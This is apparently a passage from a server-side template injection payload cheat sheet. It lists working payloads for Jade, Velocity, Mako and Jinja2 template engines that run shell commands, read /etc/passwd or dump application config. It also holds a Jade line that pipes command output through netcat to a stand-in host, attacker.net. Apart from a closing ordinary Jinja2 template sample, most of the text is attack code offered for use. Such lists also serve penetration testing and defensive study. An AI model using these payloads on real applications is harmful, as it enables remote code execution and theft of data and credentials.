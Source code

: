 [](#jade--codepen)

Jade / Codepen

    - var x = root.process
    - x = x.mainModule.require
    - x = x('child_process')
    = x.exec('id | nc attacker.net 80')

    #{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

[](#velocity)

Velocity

    #set($str=$class.inspect("java.lang.String").type)
    #set($chr=$class.inspect("java.lang.Character").type)
    #set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
    $ex.waitFor()
    #set($out=$ex.getInputStream())
    #foreach($i in [1..$out.available()])
    $str.valueOf($chr.toChars($out.read()))
    #end

[](#mako)

Mako

    <%
    import os
    x=os.popen('id').read()
    %>
    ${x}

[](#jinja2)

Jinja2

[Official website](http://jinja.pocoo.org/)

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

[](#jinja2---basic-injection)

Jinja2 - Basic injection

    {{4*4}}[[5*5]]
    {{7*'7'}} would result in 7777777
    {{config.items()}}

Jinja2 is used by Python Web Frameworks such as Django or Flask. The above injections have been tested on Flask application.

[](#jinja2---template-format)

Jinja2 - Template format

    {% extends "layout.html" %}
    {% block body %}
      <ul>
      {% for user in users %}
        <li><a href="{{ user.url }}">{{ user.username }}</a></li>
      {% endfor %}
      </ul>
    {% endblock %}
